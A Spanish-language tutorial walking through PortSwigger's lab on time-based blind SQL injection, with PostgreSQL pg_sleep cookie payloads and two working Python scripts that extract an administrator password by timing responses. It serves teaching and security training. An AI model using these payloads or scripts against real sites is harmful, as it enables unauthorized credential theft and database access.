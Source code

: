 ```yaml
---
layout: default
title: Ejercicio práctico
permalink: /injection_types/blind/time_based_type/time_based_exercise
nav_order: 1
parent: 4.3 Basadas en tiempo
grand_parent: 4. Inyecciones ciegas
---
```


# Ejercicio practico de inyección ciega basada en tiempo

> Ejercicio basado en el laboratorio "Lab: Blind SQL injection with time delays and information retrieval" de Web Security Academy (PortSwigger).


## Consigna

Este laboratorio contiene una vulnerabilidad de inyección de SQL ciega. La aplicación usa una cookie de rastreo (*tracking*) para análisis y ejecuta una consulta SQL con el valor de esta cookie. 

Los resultados de la consulta SQL no se devuelven, y la aplicación no responde de manera diferente en función de si la consulta devuelve filas o causa un error. Sin embargo, dado que la consulta se ejecuta sincrónicamente, es posible activar retrasos de tiempo condicionales para inferir información.

La base de datos contiene una tabla diferente llamada `users`, con columnas llamadas `username` y `password`.

Para resolver el laboratorio, obtener el usuario y contraseña del usuario `administrator` e iniciar sesión con estas credenciales.

## Resolución manual + automatización con Python

Luego de un primer acceso a la aplicación y por sugerencia de la consigna, analizando las cookies se observa que figura una llamada `TrackingId` con un valor alfanumérico. Para modificarla en pedidos siguientes es pertinente usar un proxy de ataque como OWASP ZAP para practicidad.

Inicialmente podemos validar la existencia de la vulnerabilidad de cualquiera de las formas mencionadas en [4.3 Basadas en tiempo](/sqli-en-la-practica/injection_types/blind/time_based_type) para cada tipo de base. Por lo que modificando `TrackingId` de la siguiente manera se puede validar la que resulta válida:

```
TrackingId=ggg'||(SELECT pg_sleep(5))--
```

De este *payload* válido se deduce que el DBMS es PostgreSQL y variando los segundos de demora en `pg_sleep` se logra inferir un tiempo lo más bajo posible **que no se confunda con una demora común** de respuesta. 

Antes de extraer la contraseña del administrador y es pertinente conocer la longitud de la misma. Basado en el ejemplo de demora condicional para PostgreSQL que se encuentra en la [SQL injection cheat sheet de PortSwigger](https://portswigger.net/web-security/sql-injection/cheat-sheet), este es un posible fragmento de SQL que funciona:

```sql
SELECT CASE WHEN (LENGTH(password)=1) 
    THEN pg_sleep(5) ELSE pg_sleep(0) END 
    FROM users WHERE username='administrator'
```

Reemplazándolo en la cookie:

```
TrackingId=ggg'||(SELECT CASE WHEN (LENGTH(password)=1) THEN pg_sleep(5) ELSE pg_sleep(0) END FROM users WHERE username='administrator')--
```

De esta manera solo se debe ir variando el número de largo comparado del número, manualmente o automatizado como se explica en los ejercicios anteriores (con *Fuzzer* de OWASP ZAP o *Intruder*/*Turbo Intruder* de Burp Suite). Como en los otros ejercicios, la longitud es 20.

Para extraer la contraseña, teniendo en cuenta que se conoce la tabla, las columnas y hasta el nombre del usuario, una forma simple y eficaz sería con el siguiente fragmento de SQL:

```sql
SELECT CASE WHEN SUBSTRING(password,%d,1)='%s' 
    THEN pg_sleep(5) ELSE pg_sleep(0) END 
    FROM users WHERE username='administrator')
```

Dado que el enfoque para automatizar la solución es con Python, en lugar de un número para posición del *substring* o un caracter a comparar con el *substring*, se utilizan los marcadores de posición `%d` y `%s` respectivamente. Esto permite sustituir con reemplazos de Python tales posiciones con valores reales de esos tipos de datos (`int` y `string`). De esta manera se puede ir probando entre las diferentes combinaciones en `%d` (para iterar entre cada posición de la contraseña del 1 al 20) y `%s` (para iterar sobre todas posibles opciones de caracteres alfanuméricos).

Para automatizar las consultas, el siguiente es un ejemplo de *script* básico en Python 3 en el que apoyarse:

```python
#!/usr/bin/python3
import requests,time,sys,string
# URL del laboratorio
url = 'https://LAB-ID.web-security-academy.net'
# Caracteres alfanuméricos (sin mayúsculas)
characters = string.ascii_lowercase + string.digits 
password = ""
cookie = ("XYZ'||(SELECT CASE WHEN SUBSTRING(password,%d,1)='%s' " 
    "THEN pg_sleep(2) ELSE pg_sleep(0) END " 
    "FROM users WHERE username='administrator')--")

print("[*] Iniciando SQLi")
# Posiciones de la contraseña del 1 al 20
for position in range(1,21): 
    for character in characters:
        cookies = { "TrackingId": cookie % (position, character) }
        time_start=time.time()
        requests.get(url, cookies=cookies)
        time_end = time.time()
        # Tiempo de respuesta mayor a 2 segundos (inyección exitosa)
        if time_end - time_start > 2:
            password += character
            sys.stdout.write(character)
            sys.stdout.flush()
            break

print("\n[+] Password: %s" % (password))
```

Para este ejemplo se tuvo en cuenta que la contraseña del administrador solo posee letras minúsculas y números. En un caso diferente, habría que incluir dentro de la lista `characters` todos los caracteres posibles para la contraseña (letras mayúsculas y caracteres especiales).

## Optimización con conversión binaria

La desventaja de iterar por lista de caracteres es que requiere una alta cantidad de consultas para probar todas las  posibles combinaciones, si bien se realiza mediante un *script* para automatizarlo, para optimizar la cantidad de consultas, es conveniente apoyarse en los consejos de optimización descritos en la sección [4.1 Inyección SQL ciega con respuestas condicionales](/sqli-en-la-practica/injection_types/blind/conditional_type#optimizaciones).

La optimización de utilizar una conversión a binario del caracter a adivinar implica convertirlo primero a su representación numérica (con `ASCII()`), luego a *byte* con un *cast* (`::bit(8)`) y finalmente tomar bit por bit de ese byte resultante. Cada bit se compara con `0` o `1` y el resultado se acumula hasta completar 8 pedidos. Completado este proceso, se obtiene un byte que es directamente convertible a caracter.

La consulta condicional SQL pasa a ser:

```sql
SELECT CASE WHEN 
    SUBSTRING(ASCII(SUBSTRING(password,%d,1))::bit(8),%d,1)=0::bit(1)
```

El primer `%d` corresponde a la posición de caracter de contraseña (1 a 20) y el segundo a la posición de bit (1 a 8). El *script* modificado para reconstruir cada byte es el siguiente:

```python
#!/usr/bin/python3
import requests,time,sys
# URL del laboratorio
url = 'https://LAB-ID.web-security-academy.net'
password = ""
cookie = ("XYZ'||(SELECT CASE WHEN SUBSTRING(ASCII(SUBSTRING(password,%d,1))::bit(8),%d,1)=0::bit(1) "
    "THEN pg_sleep(2) ELSE pg_sleep(0) END "
    "FROM users WHERE username='administrator')--")

print("[*] Iniciando SQLi")
# Posiciones de la contraseña del 1 al 20
for position in range(1,21):
    byte = ""
    # Posiciones de bit del 1 al 8
    for bit_position in range(1,9):
        cookies = { "TrackingId": cookie % (position, bit_position) }
        time_start=time.time()
        requests.get(url, cookies=cookies)
        time_end = time.time()
        # Tiempo de respuesta mayor a 2 segundos (inyección exitosa)
        if time_end - time_start > 2:
            byte += "0"
        else:
            byte += "1"
    # Conversión del entero en base 2
    extracted_chr = chr(int(byte, 2))
    password += extracted_chr
    sys.stdout.write(extracted_chr)
    sys.stdout.flush()

print("\n[+] Password: %s" % (password))
```

